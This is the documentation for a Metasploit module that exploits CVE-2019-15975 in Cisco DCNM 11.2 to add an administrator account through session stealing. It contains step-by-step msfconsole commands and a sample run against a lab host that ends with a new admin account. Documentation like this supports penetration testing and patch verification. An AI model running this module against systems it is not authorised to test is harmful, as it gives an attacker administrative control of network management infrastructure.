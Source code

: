 ## Description

This module exploits CVE-2019-15975 which affects Cisco DCNM versions 11.2 up to but not including 11.3(1). This exploit
adds an admin account with any credentials you want. Then you can login to the web interface of Cisco DCNM with those
credentials. The only necessary condition is the more or less recent connection (probably something like within the last
hours) of an admin as this exploit uses a kind of session stealing.

## Installation

A vulnerable version of Cisco DCNM can be downloaded from
[here](https://software.cisco.com/download/home/281722751/type/282088134/release/11.2(1)). Then follow all the steps in
the installation interface. You might have to set up a database if the auto installation of PostgreSQL fails for
instance (that was my case and I finally had to manually install PostgreSQL).

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use auxiliary/admin/networking/cisco_dcnm_auth_bypass`
3. `set RHOST <target_host>`
4. `check` to check if the targeted Cisco DCNM is vulnerable
5. `set USERNAME <username>` and `set PASSWORD <password>` to specify the credentials you want to add
6. `run` the module to exploit the CVE and add an admin account with those credentials

## Options

### RHOSTS

Set the target host.

### USERNAME

Set the USERNAME of the admin account you want to add.

### PASSWORD

Set the PASSWORD of the admin account you want to add.

### RETRIES

You can change the maximum number of attempts to add an admin account by using `set RETRIES <max_retries>`.

## Scenarios

### DCNM 11.2(1) - Linux OVA Appliance

```
msf > use auxiliary/admin/networking/cisco_dcnm_auth_bypass
msf auxiliary(admin/networking/cisco_dcnm_auth_bypass) > set RHOST 192.168.159.33
RHOST => 192.168.159.33
msf auxiliary(admin/networking/cisco_dcnm_auth_bypass) > check
[+] 192.168.159.33:443 - The target is vulnerable.
msf auxiliary(admin/networking/cisco_dcnm_auth_bypass) > run
[*] Running module against 192.168.159.33

[+] Admin account with username: 'frederick' and password: '1OwNqJnO' added!
[*] Auxiliary module execution completed
msf auxiliary(admin/networking/cisco_dcnm_auth_bypass) >
```
